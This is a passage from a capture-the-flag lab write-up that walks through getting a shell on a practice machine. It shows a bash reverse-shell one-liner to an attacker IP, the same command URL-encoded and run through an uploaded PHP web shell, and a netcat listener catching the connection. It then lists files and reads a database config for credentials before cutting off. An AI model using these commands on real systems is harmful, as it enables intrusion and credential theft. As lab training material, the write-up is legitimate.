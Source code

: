 ![RCEuser](/assets/{{ imgDir }}/RCEuser.png)

To get a shell on the host, we can use a reverse shell one-liner such as the one below. Note that the IP address here should be the IP address of the network interface which corresponds to the VPN conneciton.

{% highlight plain linenos %}
bash -c 'bash -i >& /dev/tcp/10.10.14.3/443 0>&1'
{% endhighlight %}

However, we need to be careful with special characters. For example, the ampersand `&` character could cut our command in half since it is used as a delimiter for GET parameters. To ensure that special characters are not being interpreted in any unwanted way, we can URL encode the command using Burp Suite's Decoder tool.

![URLEncode](/assets/{{ imgDir }}/URLEncode.png)

Next, we start a netcat listener on port 443 by executing `nc -lvnp 443` and execute the reverse shell one-liner by visiting [http://10.10.10.185/images/uploads/evilHackerCat.php.png?cmd=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%33%2f%34%34%33%20%30%3e%26%31%27](http://10.10.10.185/images/uploads/evilHackerCat.php.png?cmd=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%33%2f%34%34%33%20%30%3e%26%31%27).

{% highlight plain linenos %}
kali@kali:/tmp/x$ @@sudo nc -lvnp 443@@
listening on [any] 443 ...
@@@connect to [10.10.14.3] from (UNKNOWN) [10.10.10.185] 50210@@@
bash: cannot set terminal process group (1144): Inappropriate ioctl for device
bash: no job control in this shell
@@@www-data@@@@ubuntu:/var/www/Magic/images/uploads$ @@python3 -c 'import pty; pty.spawn("/bin/bash")'@@
<ds$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$
{% endhighlight %}

After a couple of milliseconds, we get a shell as the `www-data` user which we can upgrade using Python. The next step is to compromise the `root` user. 

# Privilege Escalation

By enumerating files on the system, it is possible to identify a file named "db.php5". This file contains database credentials, as can be seen below.

{% highlight none linenos %}
www-data@ubuntu:/var/www/Magic/images/uploads$ @@ls -la /var/www/Magic@@
ls -la /var/www/Magic
total 52
drwxr-xr-x 4 www-data www-data 4096 Jul 12  2021 .
drwxr-xr-x 4 root     root     4096 Jul  6  2021 ..
-rwx---r-x 1 www-data www-data  162 Oct 18  2019 .htaccess
drwxrwxr-x 6 www-data www-data 4096 Jul  6  2021 assets
-rw-r--r-- 1 www-data www-data  881 Oct 16  2019 @@@db.php5@@@
drwxr-xr-x 4 www-data www-data 4096 Jul  6  2021 images
-rw-rw-r-- 1 www-data www-data 4528 Oct 22  2019 index.php
-rw-r--r-- 1 www-data www-data 5539 Oct 22  2019 login.php
-rw-r--r-- 1 www-data www-data   72 Oct 18  2019 logout.php
-rw-r--r-- 1 www-data www-data 4520 Oct 22  2019 upload.php
www-data@ubuntu:/var/www/Magic/images/uploads$ @@cat /var/www/Magic/db.php5@@
cat /var/www/Magic/db.php5
<?php
class Database
{
    private static $dbName = '@@@Magic@@@' ;
    private static $dbHost = 'localhost' ;